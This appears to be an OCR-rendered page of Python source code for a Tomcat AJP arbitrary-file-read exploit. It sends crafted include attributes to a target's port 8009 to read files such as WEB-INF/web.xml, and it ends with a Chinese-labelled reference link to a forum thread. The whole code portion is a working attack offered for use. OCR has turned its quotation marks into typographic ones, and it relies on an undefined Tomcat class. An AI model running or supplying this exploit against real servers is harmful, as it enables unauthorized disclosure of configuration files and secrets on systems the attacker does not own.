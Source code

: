 ```
‘’’

import argparse

parser = argparse.ArgumentParser()

parser.add_argument(“target”, type=str, help=“Hostname or IP to attack”)

parser.add_argument(’-p’, ‘–port’, type=int, default=8009, help=“AJP port to attack (default is 8009)”)

parser.add_argument("-f", ‘–file’, type=str, default=‘WEB-INF/web.xml’, help=“file path :(WEB-INF/web.xml)”)

args = parser.parse_args()

t = Tomcat(args.target, args.port)

_,data = t.perform_request(’/asdf’,attributes=[

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.request_uri’,’/’]},

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.path_info’,args.file]},

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.servlet_path’,’/’]},

])

print(’----------------------------’)

print("".join([d.data for d in data])) 
```

## 参考链接

> https://forum.90sec.com/t/topic/801